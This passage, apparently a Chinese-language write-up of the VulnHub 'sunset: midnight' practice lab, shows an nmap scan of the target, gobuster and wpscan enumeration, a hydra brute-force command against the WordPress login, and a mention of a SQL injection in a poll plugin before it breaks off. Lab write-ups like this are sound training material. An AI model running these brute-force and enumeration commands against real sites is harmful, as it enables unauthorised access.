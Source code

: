 # sunset: midnight

2024-5-25 https://www.vulnhub.com/entry/sunset-midnight,517/

difficulty: Intermediate

## IP

192.168.5.30

## Scan

根据靶场提示，将 192.168.5.30 sunset-midnight 添加到 /etc/hosts

Open Port -> 22,80,3306

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 9cfe0b8b8d15e7727e3c23e58655512d (RSA)
|   256 feebef5d40e706679b6367f8d97ed3e2 (ECDSA)
|_  256 3583682c338bb46c2421200d52edcd16 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
|_http-title: Did not follow redirect to http://sunset-midnight/
3306/tcp open  mysql   MySQL 5.5.5-10.3.22-MariaDB-0+deb10u1
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.22-MariaDB-0+deb10u1
|   Thread ID: 14
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, SupportsCompression, SupportsTransactions, IgnoreSpaceBeforeParenthesis, IgnoreSigpipes, ConnectWithDatabase, ODBCClient, SupportsLoadDataLocal, InteractiveClient, Speaks41ProtocolNew, FoundRows, Speaks41ProtocolOld, LongColumnFlag, DontAllowDatabaseTableColumn, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: #@Ul?4)mkR9cfZn:uacO
|_  Auth Plugin Name: mysql_native_password
```

直接访问 http://sunset-midnight/ 是个 wordpress，目录扫描看看有什么：

```
gobuster -t 64 dir -u http://sunset-midnight/ -k -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html -e
```

wpscan 枚举下用户：

```
wpscan --url http://sunset-midnight/ -e u

hydra -t 20 -l admin -P ~/tools/dict/rockyou.txt sunset-midnight -f http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.5.30%2Fwordpress%2Fwp-admin%2F&testcookie=1:F=is incorrect"
```

只有一个用户 admin，尝试爆破密码，没找到。

http://sunset-midnight/robots.txt 提示内容：

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
```

发现 wordpress 使用了插件 simply-poll-master Version: 1.5，这个插件存在 SQL 注入漏洞，
